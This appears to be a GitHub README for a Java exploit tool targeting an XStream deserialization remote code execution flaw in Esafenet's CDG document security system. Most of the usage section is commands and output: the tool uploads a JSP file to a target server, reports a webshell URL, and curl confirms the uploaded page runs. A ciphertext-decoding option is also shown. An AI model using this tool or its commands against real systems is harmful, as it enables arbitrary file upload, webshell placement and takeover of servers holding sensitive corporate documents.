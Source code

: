 # CDGXStreamDeserRCE

> 亿赛通电子文档安全管理系统（简称：CDG）是一款电子文档安全防护软件，该系统利用驱动层透明加密技术，通过对电子文档的加密保护，防止内部员工泄密和外部人员非法窃取企业核心重要数据资产。亿赛通电子文档安全管理系统存在XStream反序列化远程代码执行漏洞，攻击者可利用该漏洞对服务器上传任意文件，进而控制服务器权限。


## 使用

本地文件上传利用

```bash
~/GitHub/CDGXStreamDeserRCE  ‹main*› $ cat tessssssssssssst1.jsp
<%
out.println("e165421110ba030e165421110ba03099a1c0393373c5b4399a1c0393373c5b43");
%>
~/GitHub/CDGXStreamDeserRCE  ‹main*› $ java -jar CDGXStreamDeserRCE.jar -p http://127.0.0.1:8080 -uf tessssssssssssst1.jsp -t https://192.168.31.190:8443
[+] Exploit Successed
[+] WebShell: https://192.168.31.190:8443/CDGServer3/tessssssssssssst1.jsp
~/GitHub/CDGXStreamDeserRCE  ‹main*› $ curl -k https://192.168.31.190:8443/CDGServer3/tessssssssssssst1.jsp
e165421110ba030e165421110ba03099a1c0393373c5b4399a1c0393373c5b43
```

密文解码

```bash
~/GitHub/CDGXStreamDeserRCE  ‹main*› $ java -jar CDGXStreamDeserRCE.jar -d FEPCCCLCENHIPOAFPAPDDFCGEAPNMDBMOJPMJAKKNPHOKIKIDCBPHEGKLDGNHCBDEIMODEKMKPFBAIMMNLOJJKMIICLAPJAAFGNGAKFBMPKPJMOIKODEJJMHJCCHKBMFMMFDLOMDPABOJCEAPOFDCPMKGDHFNBBIMCIPAMMIIANFPAJHFAABLLLANNIDAGNKOHONJGFGBKHFDMCLJIMICBHBJEIAAIMACN
```
<img width="1624" alt="image" src="https://user-images.githubusercontent.com/40891670/209945515-1539ff6b-e4c4-46a3-8764-7aa3a7568741.png">


## References

- https://github.com/woodpecker-framework/ysoserial-for-woodpecker
